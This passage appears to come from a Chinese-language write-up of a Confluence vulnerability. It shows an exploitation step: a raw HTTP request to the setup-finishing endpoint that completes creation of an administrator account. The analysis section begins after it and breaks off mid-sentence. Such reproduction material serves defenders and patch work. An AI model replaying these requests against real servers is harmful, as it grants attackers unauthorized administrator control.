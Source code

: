 ```plain
Content-Length: 0
Date: Thu, 26 Oct 2023 15:07:12 GMT
Connection: close
```

0x03 send 302跳转包即可添加成功

```plain
GET /setup/finishsetup.action HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
X-Atlassian-Token: no-check
Referer: http://172.16.4.1:8090/setup/setupadministrator.action
```

[![](assets/1699929092-6f0b95bf4581d052252699c978df328b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110153751-0d923362-7f9c-1.png)

## 漏洞分析

漏洞原因是：
